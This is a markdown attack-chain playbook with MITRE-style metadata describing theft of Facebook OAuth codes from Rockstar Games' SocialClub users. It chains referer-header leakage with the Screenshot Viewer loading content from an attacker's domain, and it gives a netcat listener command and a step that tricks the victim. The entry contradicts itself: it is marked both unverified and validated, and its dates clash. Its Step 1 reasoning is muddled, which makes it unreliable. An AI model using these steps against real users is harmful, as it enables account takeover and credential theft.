

---
tags:
  - oauth
  - token-theft
  - referer-leakage
  - external-content-loading
  - information-disclosure
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
procedures:
  - '[[procedures/Trigger-Referer-Leakage-in-SocialClub-Facebook-OAuth-Flow]]'
  - '[[procedures/Exploit-Screenshot-Viewer-for-External-Content-Loading]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Unsecured Credentials]]'
description: >-
  A chained vulnerability exploit in Rockstar Games' SocialClub platform that
  combines referer header leakage in the Facebook OAuth flow with unrestricted
  external content loading in the Screenshot Viewer tool to steal OAuth tokens.
skill_level: intermediate
impact_level: high
id: c6754c19-6ce1-484f-b424-021834744b71
created_at: '2025-12-14T17:24:35.794Z'
updated_at: '2025-12-14T17:24:35.794Z'
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Unsecured Credentials]]'
---
# Smuggle SocialClub Facebook OAuth Code via Referer Leakage and External Content Loading

Multi-stage attack chain demonstrating a complete attack workflow exploiting vulnerabilities in Rockstar Games' SocialClub platform to steal Facebook OAuth tokens.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser with developer tools (e.g., Chrome DevTools)
- Proxy tool like Burp Suite for intercepting requests

### Target Environment

- Rockstar Games SocialClub web platform
- Facebook OAuth integration
- Screenshot Viewer tool within SocialClub
- Network access to socialclub.rockstargames.com

### Initial Access Requirements

- Valid SocialClub account
- Ability to initiate Facebook login
- Attacker-controlled external domain for receiving leaked data

## Detailed Attack Procedures

### Step 1: Trigger Referer Leakage in OAuth Flow
procedure: [[procedures/Trigger-Referer-Leakage-in-SocialClub-Facebook-OAuth-Flow]]

**Objective**: Initiate the Facebook OAuth login process in SocialClub to leak the authorization code via the referer header due to insufficient protections.

**Instructions**: Navigate to the SocialClub login page and select Facebook as the authentication method. During the redirect to Facebook's OAuth endpoint, monitor network traffic using browser developer tools or a proxy. The authorization code will be exposed in the referer header when the callback occurs back to SocialClub.

Intercept the request using Burp Suite or similar:

- Configure proxy to capture traffic.
- Initiate login: Visit `https://socialclub.rockstargames.com/login` and click Facebook login.
- Observe the referer header in the callback request containing the OAuth code (e.g., `code=ABC123...`).

**Expected Output**: Captured referer header with exposed OAuth code.

**Success Indicators**:
- OAuth code visible in referer header
- No stripping or policy enforcement on referer

### Step 2: Smuggle Leaked Code via Screenshot Viewer
procedure: [[procedures/Exploit-Screenshot-Viewer-for-External-Content-Loading]]

**Objective**: Use the Screenshot Viewer tool to load attacker-controlled external content, smuggling the leaked OAuth code from the referer to the attacker's server.

**Instructions**: While the leaked referer is active (from Step 1), trick the user into opening the Screenshot Viewer in SocialClub. Configure the viewer to load an external image or resource from the attacker's domain (e.g., `https://attacker.com/capture.png`). The browser will send the referer header (with the OAuth code) to the attacker's server during the load.

Set up a listener on the attacker's server (e.g., using netcat or a simple HTTP server):

```bash
nc -lvp 80
```

Then, in the viewer, input the external URL and trigger the load. The request to attacker.com will include the referer with the code.

**Expected Output**: Attacker's server logs showing incoming request with referer header containing the OAuth code.

**Success Indicators**:
- External content loads without restrictions
- Leaked code received on attacker's server
- Successful exchange of code for access token using Facebook API

## Attack Chain Summary

### Key Achievements

1. Exposed sensitive OAuth code via unprotected referer in SocialClub's Facebook integration.
2. Bypassed content restrictions in Screenshot Viewer to exfiltrate the code to an external domain.
3. Enabled potential unauthorized access to victim's Facebook account via stolen token.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Unsecured Credentials]] Unsecured Credentials

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Collection]] Collection

---
*Last updated: 2023-10-01*
